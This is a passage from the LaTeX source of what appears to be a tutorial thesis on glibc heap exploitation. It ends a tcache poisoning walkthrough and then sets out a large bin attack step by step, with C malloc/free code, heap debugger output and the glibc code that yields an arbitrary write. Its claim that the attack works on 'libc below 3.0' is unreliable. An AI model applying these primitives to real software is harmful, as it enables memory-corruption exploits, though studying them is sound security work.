\end{lstlisting}

Now, as you can see in the final layout of \tch{} , the previous chunk is not valid anymore , it is a controller located in the stack:
\begin{lstlisting}[language=c,frame=tlrb]
[ 0x555555559330 -> 0x7fffffffdee8 ]
\end{lstlisting}
In the final step with one allocation , we can remove top chunk from the \tch{} , so , the next allocation return our controller location (the size must be the same): 
\begin{lstlisting}[language=c,frame=tlrb]
malloc(128)
intptr_t *c = malloc(128);
\end{lstlisting}

\section{\lb{} Attack}
As the name suggests, this attack is about the \lb{}. The goal is to force a \lb{} to write data in a controlled location.
\begin{lstlisting}[language=c,frame=tlrb]
size_t target = 0;
size_t *p1 = malloc(0x428);
size_t *g1 = malloc(0x18);
size_t *p2 = malloc(0x418);
size_t *g2 = malloc(0x18);
\end{lstlisting}
The first step is to define the target, also, we need to define two chunks in the range size of \lb{}, moreover, we need to define two chunks between them to prevent them from merging or the top chunk. 
\begin{lstlisting}[language=c,frame=tlrb]
free(p1);
size_t *g3 = malloc(0x438);
\end{lstlisting}
In the second step, we free the biggest chunk, however, the freed chunk is not in the \lb{} yet. As we discussed, the freed chunk was added to \ub{} at first, so, The best way to move it into the \lb{} is to allocate a new bigger chunk. In this way, the heap manager checks the chunk inside the \ub{}, then adds them into the corresponding bins (Like other attacks).
\begin{lstlisting}[language=c,frame=tlrb]
free(p2);
\end{lstlisting}
In the third step, we freed the smaller chunk. Now we have one chunk inside the \lb{} and one chunk in the \ub{}.
\begin{lstlisting}[language=c,frame=tlrb]
[+] unsorted_bins[0]: fw=0x5555555596e0, bk=0x5555555596e0
  Chunk(addr=0x5555555596f0, size=0x420, flags=PREV_INUSE)

[+] large_bins[63]: fw=0x555555559290, bk=0x555555559290
  Chunk(addr=0x5555555592a0, size=0x430, flags=PREV_INUSE)
\end{lstlisting}

The next step is to put the target address - 0x20 in the p1->bk\_nextsize . As we mentioned before, Just \lb{} chunk chunks use this pointer, they point to the next biggest chunk in the link list. 
\begin{lstlisting}[language=c,frame=tlrb]
p1[3] = (size_t)((&target)-4);
size_t *g4 = malloc(0x438);
\end{lstlisting}
The last step is to allocate a bigger chunk , so , p2 move to a larger chunk . When p2 move to large chunk , the heap manager write the address of p2 inside p1->bk\_nextsize->fd\_nextsize as the code of \libc{} show:
\begin{lstlisting}[language=c,frame=tlrb]
fwd = bck;
bck = bck->bk;
victim->fd_nextsize = fwd->fd;
victim->bk_nextsize = fwd->fd->bk_nextsize;
fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
\end{lstlisting}
This attack works on \libc{} below 3.0 .
\chapter{Conclusion}

\bibliographystyle{alphaurl}
\bibliography{bib}

\end{document}

